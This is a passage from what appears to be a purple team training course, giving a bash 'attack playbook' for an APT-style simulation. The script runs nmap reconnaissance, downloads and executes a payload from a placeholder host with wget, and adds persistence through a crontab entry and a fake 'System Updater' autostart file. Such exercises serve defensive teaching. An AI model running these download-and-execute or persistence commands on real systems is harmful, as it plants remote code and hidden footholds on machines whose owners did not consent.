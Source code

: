 
### Hour 8: Final Purple Team Exercise and Course Wrap-up (4:00 - 5:00 PM)

#### Exercise 38: Comprehensive Purple Team Assessment (30 minutes)

**Scenario: Full attack chain with defensive validation**

**Red Team Mission:**
Simulate APT-style attack from initial access through exfiltration

**Blue Team Mission:**
Detect, investigate, and respond to each stage

**Attack Playbook:**

```bash
#!/bin/bash
# Comprehensive Attack Simulation

echo "=== PURPLE TEAM EXERCISE: APT Simulation ==="
echo "Starting: $(date)"

# Stage 1: Reconnaissance
echo "[Stage 1] Reconnaissance"
nmap -sS -p 1-1000 localhost > /dev/null 2>&1
host localhost
whois localhost
sleep 5

# Stage 2: Initial Access (Simulated Phishing)
echo "[Stage 2] Initial Access"
wget -q -O /tmp/payload.sh http://example.com/malware
chmod +x /tmp/payload.sh
sleep 5

# Stage 3: Execution
echo "[Stage 3] Execution"
/tmp/payload.sh & # Simulated malware
MALWARE_PID=$!
sleep 5

# Stage 4: Persistence
echo "[Stage 4] Persistence"
echo "* * * * * /tmp/payload.sh" | crontab -
mkdir -p ~/.config/autostart
cat << EOF > ~/.config/autostart/updater.desktop
[Desktop Entry]
Type=Application
Exec=/tmp/payload.sh
Hidden=false
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name=System Updater
EOF
sleep 5

# Stage 5: Defense Evasion
echo "[Stage 5] Defense Evasion"
# Clear logs (simulated)
> /tmp/fake.log
sleep 5

# Stage 6: Credential Access
echo "[Stage 6] Credential Access"
```